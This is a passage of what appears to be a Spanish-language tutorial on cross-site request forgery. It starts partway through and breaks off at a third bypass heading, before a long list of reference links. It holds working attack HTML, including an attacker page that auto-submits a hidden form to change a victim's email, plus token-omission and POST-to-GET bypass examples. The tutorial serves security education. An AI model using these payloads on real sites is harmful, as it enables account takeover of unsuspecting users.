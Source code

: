 ```html
<form method="post" action="/change_email">
  <label>Nuevo Email:</label>
  <input name="email" value="usuario@victima.com">
  <input type="submit" value="Actualizar Email">
</form>
```

**Página maliciosa del atacante:**

```html
<html>
  <body onload="document.csrf_form.submit()">
    <p>Cargando contenido exclusivo...</p>
    <form name="csrf_form" action="https://victima.com/change_email" method="post">
      <input type="hidden" name="email" value="atacante@atacante.com">
      <input type="submit" value="Obtener Regalo (Falso)">
    </form>
  </body>
</html>
```

## Protecciones CSRF y sus Bypasses Modernos

### Tokens Anti-CSRF y sus Vulnerabilidades

Los tokens CSRF son la defensa más común, pero su implementación frecuentemente tiene fallas:[^9]

**Bypass 1: Token Ausente o No Validado**

```html
<!-- Original con token -->
<input type="hidden" name="csrf_token" value="abc123xyz">
<input type="hidden" name="email" value="nuevo@email.com">

<!-- Bypass: Omitir completamente el token -->
<form action="https://victima.com/change_email" method="post">
  <input type="hidden" name="email" value="atacante@atacante.com">
</form>
```

**Bypass 2: Cambio de Método HTTP**

```javascript
// Original protegido (POST)
POST /admin/delete_user
csrf_token=abc123
user_id=victim

// Bypass via GET si el endpoint lo acepta
GET /admin/delete_user?user_id=victim
```

**Bypass 3: Token No Vinculado a la Sesión**[^10]
Si el token no está vinculado específicamente a la sesión del usuario:


[^1]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-51489
[^2]: https://learn.microsoft.com/en-us/aspnet/core/security/anti-request-forgery?view=aspnetcore-9.0
[^3]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-56924
[^4]: https://www.invicti.com/web-application-vulnerabilities/ampache-cross-site-request-forgery-csrf-vulnerability-cve-2024-47828
[^5]: https://infosecwriteups.com/csrf-in-2025-solved-but-still-bypassable-942ca382ab77
[^6]: https://developer.mozilla.org/en-US/docs/Web/Security/Attacks/CSRF
[^7]: https://brightsec.com/blog/csrf-example/
[^8]: https://www.cobalt.io/blog/csrf-bypasses
[^9]: https://www.intigriti.com/researchers/blog/hacking-tools/csrf-a-complete-guide-to-exploiting-advanced-csrf-vulnerabilities
[^10]: https://www.linkedin.com/pulse/bypassing-unpredictable-csrf-tokens-muvhango-magatshavha-jl7lf
[^11]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions
[^12]: https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
[^13]: https://www.sidechannel.blog/en/http-method-override-what-it-is-and-how-a-pentester-can-use-it/
[^14]: https://osintteam.blog/web-security-academy-csrf-samesite-lax-bypass-via-cookie-refresh-775f4f6efdc2
[^15]: https://owasp.org/www-chapter-london/assets/slides/David_Johansson-Double_Defeat_of_Double-Submit_Cookie.pdf
[^16]: https://sallam.gitbook.io/sec-88/write-ups/exploiting-json-based-csrf-the-hidden-threat-in-profile-management
[^17]: https://bugbase.ai/blog/how-to-bypass-csrf-protection
[^18]: https://stackoverflow.com/questions/11008469/are-json-web-services-vulnerable-to-csrf-attacks
[^19]: https://labs.detectify.com/writeups/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/
[^20]: https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html
[^21]: https://outpost24.com/blog/csrf-attacks-simplified-guide/
[^22]: https://www.certuscyber.com/insights/bypass-samesite-cookie/
[^23]: https://zuplo.com/learning-center/preventing-cross-site-request-forgery-in-apis
[^24]: https://www.stackhawk.com/blog/react-csrf-protection-guide-examples-and-how-to-enable-it/
[^25]: https://moldstud.com/articles/p-comparing-csrf-protection-methods-lumen-vs-other-frameworks
[^26]: https://www.incibe.es/index.php/en/incibe-cert/early-warning/vulnerabilities/cve-2024-52402
[^27]: https://portswigger.net/web-security/csrf
[^28]: https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override
[^29]: http://scielo.sld.cu/scielo.php?script=sci_abstract\&pid=S2306-24952024000700133\&lng=en\&nrm=iso
[^30]: https://learn.snyk.io/lesson/csrf-attack/
[^31]: https://stackoverflow.com/questions/79368322/how-to-bypass-samesite-cookie-restriction-in-microsoft-edge-during-local-develop
[^32]: https://sec.cloudapps.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-ise-csrf-y4ZUz5Rj
[^33]: https://www.imperva.com/learn/application-security/csrf-cross-site-request-forgery/
[^34]: https://www.youtube.com/watch?v=ucHEU1Z9DhU
[^35]: https://nvd.nist.gov/vuln/detail/CVE-2024-51484
[^36]: https://en.wikipedia.org/wiki/Cross-site_request_forgery
[^37]: https://vulnapi.cerberauth.com/docs/vulnerabilities/security-misconfiguration/http-method-allow-override
[^38]: https://www.linkedin.com/pulse/how-double-submit-cookie-prevent-csrf-viral-parmar-qzyqc
[^39]: https://www.youtube.com/watch?v=Jv-LXLID3VA
[^40]: https://www.webasha.com/blog/how-does-csrf-lead-to-account-takeover-real-world-example-and-exploit-chain-explained
[^41]: https://brightsec.com/blog/csrf-mitigation/
[^42]: https://github.com/obiba/opal/security/advisories/GHSA-27vw-29rq-c358
[^43]: https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-duplicated-in-cookie
[^44]: https://www.invicti.com/blog/web-security/protecting-website-using-anti-csrf-token/
[^45]: https://stackoverflow.com/questions/73031478/is-the-double-submit-cookie-pattern-really-safe
[^46]: https://www.wiz.io/academy/cross-site-request-forgery-csrf
[^47]: https://www.acceis.fr/csrf-get-samesite-concrete-attack/
[^48]: https://www.bitsight.com/blog/web-application-security-devops-anti-csrf-and-cookie-samesite-options
[^49]: https://heycoach.in/blog/cross-site-request-forgery-csrf-prevention-techniques/
[^50]: https://www.sciencedirect.com/science/article/pii/S2667295221000258
[^51]: https://www.incibe.es/en/incibe-cert/early-warning/vulnerabilities/cve-2024-22424
[^52]: https://infosecwriteups.com/how-i-exploited-a-hidden-csrf-vulnerability-and-how-you-can-prevent-it-d089ad23887d
[^53]: https://www.openwall.com/lists/oss-security/2024/11/16/2